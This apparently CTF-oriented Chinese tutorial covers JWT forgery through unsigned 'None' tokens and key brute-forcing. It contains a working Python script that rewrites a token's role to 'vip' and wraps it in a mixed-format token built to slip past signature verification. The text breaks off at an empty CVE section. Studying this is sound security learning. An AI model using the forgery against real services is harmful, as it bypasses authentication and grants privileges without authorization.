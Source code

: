 对于我们的身份认证中的 JWT 伪造，我们一般有两种思路，一种是**通过我们题目中给定的提示信息，找到我们的目标需要的内容**。另一种是通过我们的 CVE 漏洞，来**伪造我们的 JWT**，

## 原理：
我们知道，我们的 JWT 认证由我们的三个部分组成，分别是我们的“头部”，“载荷”，“签证”。其中我们的“头部”声明了我们的类型和对应的加密方法，我们的载荷种存储了我们的数据，我们的签证则是存放了我们的“密钥”。

JWT伪造的目的就是修改里面的数据来绕过JWT的检测。

### 无加密伪造：
假设我们收到的 payload 是一个没有加密的 JWT 数据，那么我们就可以直接通过我们的 JWT 修改来得到我们需要的结果。
```
{"alg":"None","typ":"jwt"}[{"iss":"admin","iat":1632622589,"exp":1632629789,"nbf":1632622589,"sub":"user","jti":"d3eb4ee8218c2cfe5e0d123923e4743a"}]
```

### 签名密码爆破：
假设我们收到的 payload 是一个比较难以琢磨的，没有任何头绪的 JWT 数据，那么我们可以考虑采用我们的密钥爆破的方法来找到我们的需要的签名。

爆破出来我们的签名之后，我们就可以考虑直接得到我们的最终的签名密码。
## PAYLOAD：
```
import json
from base64 import urlsafe_b64encode, urlsafe_b64decode
 
def modify_jwt_token(jwt_token):
    header, payload, signature = jwt_token.split('.')
    decoded_payload = json.loads(urlsafe_b64decode(payload + '=' * (-len(payload) % 4)).decode('utf-8'))
    print(decoded_payload)
    decoded_payload["role"] = "vip"
    #decoded_payload["iat"] = "1714628024"
    #decoded_payload["exp"] = "1714628024"
    #decoded_payload["jti"] = "1714628024"
    print(json.dumps(decoded_payload, separators=(',', ':')))
    encoded_payload = urlsafe_b64encode(json.dumps(decoded_payload, separators=(',', ':')).encode('utf-8')).decode('utf-8')
    print(encoded_payload)
    return '{" ' + header + '.' + encoded_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"} '
 
print(modify_jwt_token('eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTY0NzE4NjIsImlhdCI6MTcxNjQ2ODI2MiwianRpIjoiY1c3UjNNYk5nV1RnR1diRkMwd0UxZyIsIm5iZiI6MTcxNjQ2ODI2Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9.mpRLKzcZh_nVMYPoR83tmlORdUMEsKHLd5dnQkPDsmdsdWcUsAA5y4R-kldrv0LDRHHAYSka9K6S7nMAUfwxZPh9o1A92deUiZzPVudOzg95blRZ6svdgkXljtqF0HjR7KwFpJqrkgc6ZtyTBlBEwlWQB7-aZfwO55MNirrR_ClsDrxKofHOCZ6-0HT-Po_jam5gbOpIGvHOOyJmLN0qznUUNmzhLUJFWgMAedCqA4Inp5fWLHLAC_2jViT9Iz2FcyXUgkVJ1BbVNqTMH2TqvUXuF23ZOS8SEIZQR1ssHc4ArJKKyuzOPJ60n6ovZKrwEAQsOjUfiosU3v22BxzeVg'))
```

## CVE 漏洞
